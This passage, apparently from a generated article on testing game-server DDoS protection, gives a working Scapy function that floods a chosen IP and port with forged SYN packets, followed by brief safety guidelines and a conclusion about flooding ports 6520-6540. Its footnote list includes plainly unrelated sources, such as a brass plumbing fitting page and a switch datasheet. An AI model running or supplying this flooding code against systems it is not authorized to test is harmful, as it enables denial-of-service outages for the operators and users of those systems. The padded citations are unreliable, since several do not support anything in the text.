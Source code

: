 
### SYN Flooding Test

For testing SYN flood protection specifically, you can use Scapy to create custom SYN packets[^1]:

```python
# This requires: pip install scapy
from scapy.all import *

def syn_flood(target_ip, port, duration):
    """Send SYN packets without completing handshake."""
    end_time = time.time() + duration
    
    # Forge IP and TCP layers
    ip = IP(dst=target_ip)
    tcp = TCP(sport=RandShort(), dport=port, flags="S")
    raw = Raw(b"X"*1024)  # Add payload
    packet = ip / tcp / raw
    
    print(f"Starting SYN flood to {target_ip}:{port}")
    send(packet, loop=1, verbose=0, inter=0.01, count=int(duration/0.01))
    print(f"Completed SYN flood to {target_ip}:{port}")
```


## Safety Considerations and Best Practices

When conducting flood testing, consider these important guidelines:

1. **Only test on your own systems**: Never test on networks or systems without explicit permission[^2][^6].
2. **Start with low traffic volumes**: Begin with minimal settings and gradually increase to avoid unintended disruptions[^7].
3. **Monitor system resources**: Keep an eye on CPU, memory, and network usage during testing.
4. **Use controlled environments**: Perform tests in isolated development environments when possible[^4].
5. **Implement safeguards**: Set appropriate limits on test duration and traffic volume[^3].

## Conclusion

This port flooding script provides a practical tool for game developers to test their DDoS prevention mechanisms. By generating moderate traffic to ports 6520-6540, developers can evaluate how their game handles increased network load and fine-tune their protection strategies.

Remember that this script is intended strictly for educational and testing purposes on systems you own or have permission to test. Responsible testing is essential for developing robust network applications without causing harm to others.

<div style="text-align: center">⁂</div>

[^1]: https://thepythoncode.com/article/syn-flooding-attack-using-scapy-in-python

[^2]: https://www.elifulkerson.com/projects/python-udp-stress-tester.php

[^3]: https://github.com/ricardojoserf/ddos_simulation

[^4]: https://www.nimbusddos.com/ddos-wargames.htm

[^5]: https://docs.faucet.nz/en/1.8.18/_modules/faucet/valve_flood.html

[^6]: https://github.com/DigvijayBhosale1729/Local_DOS_Flood

[^7]: https://github.com/olegleyz/socket-disturber


[^8]: https://www.youtube.com/watch?v=KlBl7PRico8
[^9]: https://aws.amazon.com/blogs/gametech/how-to-defend-your-games-against-ddos-attacks/
[^10]: https://documentation.extremenetworks.com/switchengine_commands_32.3/GUID-61F79CF6-17EA-47AE-860F-093947F634D6.shtml
[^11]: https://www.businessinsider.com/udp-flooding-how-to-kick-a-local-user-off-the-network-2012-1
[^12]: https://sourceforge.net/projects/pynuker/
[^13]: https://www.neuralnine.com/code-a-ddos-script-in-python/
[^14]: https://www.ovhcloud.com/en-ca/security/game-ddos-protection/
[^15]: https://unix.stackexchange.com/questions/769702/too-fast-checking-local-ports-with-python-socket
[^16]: https://www.youtube.com/watch?v=EQVX_6VhjzM
[^17]: https://github.com/mach1el/pyddos
[^18]: https://www.keysight.com/us/en/cmp/topics/ddos-testing.html
[^19]: https://stackoverflow.com/questions/1365265/on-localhost-how-do-i-pick-a-free-port-number
[^20]: https://gist.github.com/mda590/7a9a6b21b74ae10aa350b1703e2724a0
[^21]: https://www.reddit.com/r/learnpython/comments/1aew1jl/i_need_a_ddos_python_script/
[^22]: https://aws-experience.com/emea/de-central-growth/e/9c2fb/test-your-skills-on-a-ddos-game-day
[^23]: https://serverfault.com/questions/1022278/detect-syn-flood-attack-in-python
[^24]: https://www.speedguide.net/port.php?port=6540
[^25]: https://security.stackexchange.com/questions/231455/does-flooding-with-bytes-cause-buffer-overflow
[^26]: https://i.dell.com/sites/csdocuments/Shared-Content_data-Sheets_Documents/en/us/Brocade-6520-Fibre-Channel-Switch-Data-Sheet.pdf
[^27]: https://supplyshop.com/products/copy-of-python-6525-7-8-brass-flare-elbow-1